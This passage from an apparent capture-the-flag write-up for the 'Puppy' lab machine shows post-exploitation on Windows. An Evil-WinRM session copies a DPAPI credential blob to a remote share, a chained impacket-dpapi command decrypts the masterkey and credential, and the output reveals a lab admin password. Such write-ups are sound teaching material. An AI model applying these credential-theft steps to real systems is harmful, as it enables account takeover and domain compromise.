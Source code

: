 ```
d-----         2/23/2025   2:36 PM                Vault
d-----          3/8/2025   7:52 AM                Windows


*Evil-WinRM* PS C:\Users\steph.cooper\Appdata\Roaming\Microsoft> cd Credentials
*Evil-WinRM* PS C:\Users\steph.cooper\Appdata\Roaming\Microsoft\Credentials> dir -h

    Directory: C:\Users\steph.cooper\Appdata\Roaming\Microsoft\Credentials

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:54 AM            414 C8D69EBE9A43E9DEBF6B5FBD48B521B9

*Evil-WinRM* PS C:\Users\steph.cooper\Appdata\Roaming\Microsoft\Credentials> copy C8D69EBE9A43E9DEBF6B5FBD48B521B9 "\<IP>\share\steph-credential"
*Evil-WinRM* PS C:\Users\steph.cooper\Appdata\Roaming\Microsoft\Credentials>
```

<p class="indent-paragraph">
After identifying two DPAPI-related blobs under <code>C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect</code> (the <code>masterkey blob</code>) and <code>Microsoft\Credentials</code> (the <code>credential blob</code>), we initiated a decryption process. These binary blobs store sensitive user data encrypted using Windows Data Protection API (DPAPI), and are commonly extracted in post-exploitation scenarios to retrieve secrets such as saved passwords and tokens.
</p>

<p class="indent-paragraph">
The<code>masterkey blob</code> was decrypted using the cleartext password of the<code>steph.cooper</code> user alongside their SID. The resulting key was then used to decrypt the<code>credential blob</code><span class="codefix">.</span> This was executed in a single chained command:
</p>

<pre><code>~$ key=$(impacket-dpapi masterkey -f steph-masterkey -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password 'ChefSteph2025!' | grep 'Decrypted key:' | awk '{print $3}'); echo "\n[*] Decrypted MasterKey: $key\n"; impacket-dpapi credential -f steph-credential -key $key</code></pre>

<p class="indent-paragraph">
The decrypted output revealed a new set of credentials in plaintext:<code>steph.cooper_adm</code> with the password<code>FivethChipOnItsWay2025!</code><span class="codefix">.</span> This account appears to hold elevated privileges within the domain and will be leveraged in the next stage for privilege escalation or domain compromise.
</p>

```
[*] Decrypted MasterKey: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!
```

